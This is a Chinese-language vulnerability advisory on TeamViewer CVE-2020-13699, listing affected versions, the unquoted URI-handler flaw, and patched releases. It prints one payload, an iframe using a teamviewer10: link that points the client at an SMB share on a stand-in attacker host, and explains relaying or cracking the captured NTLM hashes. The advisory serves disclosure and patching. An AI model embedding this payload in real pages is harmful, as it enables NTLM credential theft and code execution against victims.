 # TeamViewer 远程代码执行漏洞(CVE-2020-13699)

最后更新于：2020-09-23 15:53:05

#### 影响版本

TeamViewer < 8.0.258861
TeamViewer < 9.0.28860
TeamViewer < 10.0.258873
TeamViewer < 11.0.258870
TeamViewer < 12.0.258869
TeamViewer < 13.2.36220
TeamViewer < 14.2.56676
TeamViewer < 15.8.3

#### 漏洞描述

TeamViewer存在未引用的搜索路径或元素的安全缺陷，由于应用程序没有正确引用它的自定义URI处理程序，当安装有TeamViewer的易受攻击版本的系统访问恶意创建的网站时，可能会被利用。
攻击者可以使用精心制作的URL

```
（iframe src='teamviewer10: --play \\attacker-IP\share\fake.tvs'）
```

![img](TeamViewer%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2020-13699)/20200918191638492.png)
![img](TeamViewer%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2020-13699)/20200918191646922.png)
将恶意iframe嵌入网站中，从而启动TeamViewer Windows桌面客户端并强制其打开远程SMB共享。
Windows将在打开SMB共享时，执行NTLM身份验证，并且可以转发该请求（使用如响应程序之类的工具）以执行代码（或捕获该请求以进行哈希破解）

#### 修复建议

针对此漏洞官方已在8.0.258861、9.0.258860、10.0.258873、11.0.258870、12.0.258869、13.2.36220、14.2.56676、14.7.48350和15.8.3版本中修复。
请受影响的用户参考以下链接安装补丁更新：https://www.teamviewer.com/en/download/previous-versions/